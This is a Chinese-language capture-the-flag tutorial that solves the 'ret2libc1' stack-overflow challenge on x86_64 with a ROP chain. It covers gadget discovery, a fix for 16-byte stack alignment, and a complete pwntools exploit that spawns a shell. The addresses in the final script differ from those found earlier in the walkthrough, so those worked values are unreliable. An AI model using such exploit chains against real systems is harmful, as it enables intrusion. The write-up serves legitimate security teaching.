

环境准备
系统环境：Ubuntu 21.04
内核版本：Linux 5.11.0
cpu架构：x86_64
gcc：7.5.0
gdb：9.2
python：3.8.5
pwndbg：2020.07.23
ROP概念介绍
ROP是用来绕过NX保护的，开启 NX 保护的话栈、堆的内存空间就没有执行权限了，直接向栈或者堆上直接注入代码的攻击方式就无效了。
ROP的主要思想是在栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。所谓 gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。
之所以称之为 ROP，是因为核心在于利用了指令集中的 ret 指令，改变了指令流的执行顺序。ROP 攻击一般得满足如下条件
程序存在溢出，并且可以控制返回地址。
可以找到满足条件的 gadgets 以及相应 gadgets 的地址。
如果 gadgets 每次的地址是不固定的，那我们就需要想办法动态获取对应的地址了。
ret2libc1
题目链接：
题目说明：
原题给的是一个32位的程序，这里我们重新编译一下源码，对64位的程序进行攻击：
1 |
|
解题步骤
-
首先查看程序开启的防护有哪些：checksec ret2libc1_x64
可以看到，程序没有开启canary和pie，NX是开启的，因此不能直接在堆、栈区执行代码，可以使用ROP来绕过NX保护 -
使用ROPgadget检查程序中是否存在/bin/sh字符串：
1
ROPgadget --binary ret2libc1_x64 --string="/bin/sh"
发现存在，地址为0x402004：
-
检查程序中是否使用了system函数，如果有的话就可以直接构造system(“/bin/sh”)命令来获取shell：
1
objdump -S ret2libc1_x64 | grep system
发现存在system，地址为0x4010c0
这里注意一点是我们需要的是system的plt地址，不是存放call指令的地址，关于plt&got的概念，简单说就是用来间接寻址的，调用函数的时候首先跳转到plt，然后plt指向got，最后got指向plt调用函数的真正位置，详细的说明可以参考如下博客：
https://cloud.tencent.com/developer/article/1590167 -
拿到了/bin/sh字符串和system函数的地址，下一步是查看溢出范围，使用gdb ret2libc1_x64进行调试，可以发现gets函数调用时的汇编指令：
rdi里存的是函数的第一个参数，也就是gets函数的第一个参数的地址是在rbp下面0x70个字节的地方，我们知道栈溢出的方向是从低地址往高地址，所以gets函数需要一个0x70长的字符串就可以溢出到rbp指向的地址的值，而rbp的上一个栈块里存放的就是ret指令要读取的返回地址，因此我们溢出0x70+8字节的数据后，再溢出的数据就可以覆盖到ret地址了 -
现在可以编写payload了，大概思路是：首先填充0x70+8长度的脏数据，达到ret地址处，然后填入system函数的plt地址，这样执行完gets就会跳转到system函数继续执行了。
现在关键问题来了，system函数的参数 /bin/sh 字符串怎传进去?
这里有一个跟32位程序很大的不同，在32位程序中，函数的参数是全部放在栈里的，因此在32位程序的payload里，会直接把参数字符串所在地址溢出到栈里面，但是x64的函数参数是优先放在寄存器里的，准确说前六个整型或指针参数会依次保存在 RDI, RSI, RDX, RCX, R8 和 R9 寄存器中，如果还有更多的参数的话才会保存在栈上，因此我们在调用system函数之前，需要先把参数地址写入到rdi寄存器中。
为了改变rdi寄存器的值，我们需要先用ROPgadget找一下程序里有没有可以用的gadgets：
1
2
3
ROPgadget --binary ret2libc1_x64 --only="pop|ret"这里我们选用0x401333地址处的gadgets：
-
ok，到现在我们需要的信息都已经收集到了，可以写payload了：
1
2
3
4
5
6
payload = b'a'*(0x70+8) +\ # 填充脏数据至ret地址处
p64(0x401333) +\ # 填入rdi的gadgets的地址
p64(0x402004) +\ # 填入/bin/sh字符串的地址，这样执行pop rdi就可以把字符串地址弹入rdi寄存器了
p64(0x4010c0) # 填入system函数的地址直接运行这个payload，有的小伙伴可能成功了，有的小伙伴却会发生段错误，这是咋回事？
这里有个坑要注意一下！！！
如果gcc版本比较老的话（7.3以下，比如5.4版本）不会有段错误，但如果版本比较高比如我的环境里的gcc版本是7.5.0，就会有段错误！
通过pwntools的gdb.attach()命令调试，我发现段错误发生的位置如下：
可以看到，程序在执行了movaps命令后发生了段错误，而这个命令要求栈满足16字节对齐，而我们的栈空间当前明显是8字节对齐的。。
所以发生段错误的原因就是：我们填入payload之后栈空间不满足16字节对齐，而gcc 7.5版本在编译后生成的代码会检查栈空间是否16字节对齐
知道问题根因后，我们修改一下payload，使其满足16字节对齐：1
2
3
4
5
6
7
payload = b'a'*(0x70+8) +\ # 填充脏数据至ret地址处
p64(0x4005fe) +\ # 填入ret指令，用于拼凑payload满足16字节对齐
p64(0x401333) +\ # 填入rdi的gadgets的地址
p64(0x402004) +\ # 填入/bin/sh字符串的地址，这样执行pop rdi就可以把字符串地址弹入rdi寄存器了
p64(0x4010c0) # 填入system函数的地址 -
完整的exp如下：
1
2
3
4
5
6
7
8
9from pwn import *
system_addr=p64(0x400620)
ret_addr=p64(0x4005fe)
bin_str=p64(0x4008b4)
pop_edi_addr=p64(0x400893)
payload=b'a'*120 + ret_addr + pop_edi_addr + bin_str + system_addr
p=process("./ret2libc1_x64")
p.sendline(payload)
p.interactive()把脚本跟ret2libc1_x64文件放在同一目录运行一下，成功获得shell：

小结
这个题还是很简单很基础的，唯一需要注意的坑就是栈要保持16字节对齐，关于movaps汇编指令，详细介绍可以参考一下如下博文：
SSE指令学习
If you like this blog or find it useful for you, you are welcome to comment on it. You are also welcome to share this blog, so that more people can participate in it. If the images used in the blog infringe your copyright, please contact the author to delete them. Thank you !